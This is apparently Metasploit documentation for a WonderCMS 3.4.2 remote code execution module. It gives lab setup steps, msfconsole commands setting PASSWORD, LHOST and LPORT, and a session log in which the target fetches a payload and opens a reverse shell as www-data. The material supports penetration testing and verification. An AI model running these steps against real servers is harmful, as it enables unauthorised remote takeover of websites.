 ## Vulnerable Application

[WonderCMS](https://www.wondercms.com/) is a free and open-source Content Management System (CMS). The main advantage is that only one PHP file controls the whole management. Follow next steps to install application:

1. Install Apache2 and PHP on server
2. Download WonderCMS from [here](https://github.com/WonderCMS/wondercms/releases/download/3.4.2/wondercms-342.zip)
3. Enable Apache2 Rewrite Engine: `sudo a2enmod rewrite`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use multi/http/wondercms_rce`
4. Do: `set PASSWORD [password]'
5. Do: `set LHOST [attacker IP]`
6. Do: `set LPORT [attacker PORT]`
4. Do: `run`
5. You should get a shell.

## Options

### PASSWORD

WonderCMS generates one global password that gets generated upon first run of application. This is global admin password that controls the whole CMS. This password has to be used in the exploit to get authenticated access.

## Scenarios

```
msf6 exploit(multi/http/wondercms_rce) > set LHOST 192.168.168.152
LHOST => 192.168.168.152
msf6 exploit(multi/http/wondercms_rce) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/wondercms_rce) > exploit
[*] Exploit running as background job 28.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/wondercms_rce) > 
[*] Started reverse TCP handler on 192.168.168.152:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is probably WonderCMS..
[+] The target is vulnerable. Version 3.4.2 is affected
[*] Using URL: http://192.168.168.152:8082/81k4.zip
[*] Received request, sending payload..
[*] Server stopped.
[*] Command shell session 5 opened (192.168.168.152:4444 -> 192.168.168.146:37068) at 2025-04-25 14:46:20 +0200

msf6 exploit(multi/http/wondercms_rce) > sessions 5
[*] Starting interaction with 5...

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

